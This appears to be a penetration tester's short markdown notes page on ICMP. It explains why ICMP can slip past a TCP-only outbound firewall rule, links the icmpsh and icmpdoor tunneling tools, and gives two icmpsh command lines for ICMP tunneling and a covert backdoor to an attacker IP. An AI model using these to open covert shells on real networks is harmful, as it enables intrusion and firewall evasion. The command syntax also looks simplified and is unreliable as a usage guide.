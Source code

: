 ## Why ICMP can work

- Your firewall rule (`BlockOutboundDC`) **only blocks TCP** (as shown in your `Get-NetFirewallRule` output).
    
- ICMP (Internet Control Message Protocol) is **not TCP or UDP**; it’s a separate protocol used for things like `ping`, `traceroute`, and network diagnostics.
    
- Many firewalls **allow ICMP echo request/reply by default**, unless explicitly blocked.


# ICMP (Internet Control Message Protocol)

**`Default Port: Not applicable`**

**ICMP (Internet Control Message Protocol)** is a network layer protocol used by network devices, including routers, to send error messages and operational information indicating success or failure when communicating with another IP address. It is commonly used for diagnostics and troubleshooting in IP networks.

ICMP operates by exchanging control messages between devices, informing them about network conditions, errors, and various other operational states.



[[ping]]

## ICMP Tunneling

https://github.com/bdamele/icmpsh
https://github.com/krabelize/icmpdoor


ICMP Tunneling involves encapsulating other network protocols within ICMP packets to bypass network security measures:

```
icmpsh -t <target-ip>
```

### ICMP Backdoor

Creating a backdoor using ICMP can provide a covert channel for communication:

```
icmpsh -b <attacker-ip>
```


